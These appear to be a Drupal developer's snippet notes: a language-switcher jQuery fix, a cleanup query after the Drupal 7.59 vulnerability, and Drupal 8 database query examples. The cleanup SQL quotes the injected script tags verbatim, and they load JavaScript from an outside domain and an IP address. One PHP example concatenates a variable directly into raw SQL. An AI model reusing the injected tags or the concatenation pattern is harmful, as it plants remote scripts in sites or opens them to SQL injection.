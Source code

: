 ## Lang switcher is-active class not working
```js
l = $('.lang-switch', context).find('li').length ? $('.lang-switch', context).find('li') : $('.lang-switch').find('li');
l.each(function () {
  if ($(this).hasClass(settings.path.currentLanguage))
    $(this).not('.is-active').addClass('is-active');
});
```

## Drupal core vulnerability fix in 7.59 (How to recover)
- Find and remove injected code from the database:
```sql
UPDATE field_data_body SET body_value=REPLACE(body_value,"<script type='text/javascript' src='https://js.localstorage.tk/s.js?qr=888'></script><script type='text/javascript' src='http://193.201.224.233/m.js?d=1'></script>",'')
```

## Creating a custom block programmatically
See: https://medium.com/@kporras07/create-content-blocks-programatically-in-drupal-8-644fef292b84

## Create nodes using Migrate module
- See official documentation.

## Sample custom DB query in Drupal 8
```php
// Complex query with group by and having
$mainQuery1 = Database::getConnection()->select('node__field_office_hours', 'a',[]);
$mainQuery1->fields('a',['entity_id']);
$mainQuery1->groupBy('a.entity_id, a.`field_office_hours_day`');
$mainQuery1->having('COUNT(*) > 1');
$tempResult1 = $mainQuery1->execute()->fetchAll();

$mainQuery = Database::getConnection()->select($mainQuery1,'b');
$mainQuery->fields('b',['entity_id']);
$mainQuery->groupBy('b.entity_id');
$mainQuery->preExecute();
$mainQuery->getArguments();
$str = (string) $mainQuery;
$tempResult = $mainQuery->execute()->fetchAll();

// Or using raw SQL
$subQuery = \Drupal::database()->query(
    "SELECT b.entity_id FROM (SELECT a.entity_id FROM `node__field_office_hours` AS a GROUP BY a.`entity_id`, a.`field_office_hours_day` HAVING COUNT(*) >" . $eveningFilter . ") AS b GROUP BY b.`entity_id`"
);
$subResult = $subQuery->fetchAll();
```

